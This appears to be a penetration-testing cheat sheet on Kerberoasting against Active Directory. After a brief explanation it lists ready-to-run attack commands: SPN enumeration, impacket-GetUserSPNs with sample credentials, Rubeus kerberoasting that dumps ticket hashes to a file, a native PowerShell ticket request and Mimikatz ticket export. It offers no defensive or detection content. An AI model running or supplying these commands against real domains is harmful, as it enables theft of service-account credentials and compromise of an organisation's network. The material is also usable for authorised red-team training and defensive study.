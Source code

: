 # Kerberoasting

the TGS encrypted using a password service account

<figure><img src="../../../../.gitbook/assets/image (1).png" alt=""><figcaption><p>the TGS encrypted using password service account</p></figcaption></figure>

{% hint style="warning" %}
The Kerberos session ticket (TGS) has a server portion that is encrypted with the password hash of the service account. This makes it possible to request a ticket and do an offline password attack
{% endhint %}

### Enumeration

<pre class="language-bash"><code class="lang-bash">#Find user accounts used as Service accounts
Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName
Get-NetUser -SPN 
Get-DomainUser -SPN
#using impacket tools
<strong>impacket-GetUserSPNs hacktor.local/grey:digi@123 -dc-ip 192.168.1.50 -request
</strong></code></pre>

### Rubeus

{% code overflow="wrap" %}
```powershell
Rubeus.exe kerberoast /stats
Rubeus.exe kerberoast /user:svcadmin /simple
#Kerberoast all possible accounts
Rubeus.exe kerberoast /rc4opsec /outfile:hashes.txt
Rubeus.exe kerberoast  /outfile:hashes.txt
#OR Native Command
Add-Type -AssemblyName System.IdentityModel ;New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/msp-sqlreport.msp.local"  
```
{% endcode %}

### mimikatz

```powershell
Invoke-Mimikatz -Command '"kerberos::list /export"'

```

